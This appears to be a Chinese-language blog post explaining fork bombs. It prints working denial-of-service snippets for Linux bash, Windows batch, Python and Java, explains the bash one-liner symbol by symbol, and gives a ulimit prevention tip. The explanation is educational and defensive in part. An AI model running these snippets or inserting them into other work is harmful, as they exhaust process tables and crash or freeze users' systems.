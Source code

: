 ```yaml
---
title: Fork Bomb
date: 2017-02-04 10:36:52
comments: true
tags: 
- ForkBomb
categories: 系统安全
---
```

　　Fork炸弹（fork bomb）在计算机领域中是一种利用系统调用fork（或其他等效的方式）进行的拒绝服务攻击。fork炸弹以极快的速度创建大量进程（进程数呈以2为底数的指数增长趋势），并以此消耗系统分配予进程的可用空间使进程表饱和，而系统在进程表饱和后就无法运行新程序，除非进程表中的某一进程终止，它可以利用在windows/linux等系统。

#### linux系统

##### Code
```bash
:(){ :|:& };:
```

##### 注解
:()　# 定义函数,函数名为":",即每当输入":"时就会自动调用{}内代码 
{　　# ":"函數起始字元     
:　　# 用递归方式调用":"函数本身     
|　　# 並用管線(pipe)將其輸出引至...（因为有一个管線操作字元，因此會生成一個新的進程）     
:　　# 另一次递归调用的":"函数 # 综上,":|:"表示的即是每次調用函数":"的時候就會產生兩份拷貝     
&　　# 調用間脱鉤,以使最初的":"函数被關閉後為其所調用的兩個":"函數還能繼續執行 
}　　# ":"函數終止字元 
;　　# ":"函数定义结束后将要进行的操作... 
:　　# 调用":"函数,"引爆"fork炸弹



#### Windows系统(创建一个.bat，写入以下命令运行即可)

##### Code
```bash
%0|%0|%0
```
##### 注释
%0就是输出自己本身,也就是.bat，在cmd中即表示运行.bat
|%0就是打开自身后的程序再打开.bat
3的指数倍

##### 预防
一个防止其严重影响系统的方法就是限定一个用户能够创建的进程数的上限，在Linux系统上，可以通过ulimit这个指令达到相应的效果。


#### 编程语言应用

Using Python:

```bash
import os
while 1:
    os.fork()
```

Using Java:

```bash
public class ForkBomb
{
  public static void main(String[] args)
  {
    while(true)
    {
      Runtime.getRuntime().exec(new String[]{"javaw", "-cp", System.getProperty("java.class.path"), "ForkBomb"});
    }
  }
}
```

官方参考链接：[https://en.wikipedia.org/wiki/Fork_bomb](https://en.wikipedia.org/wiki/Fork_bomb)


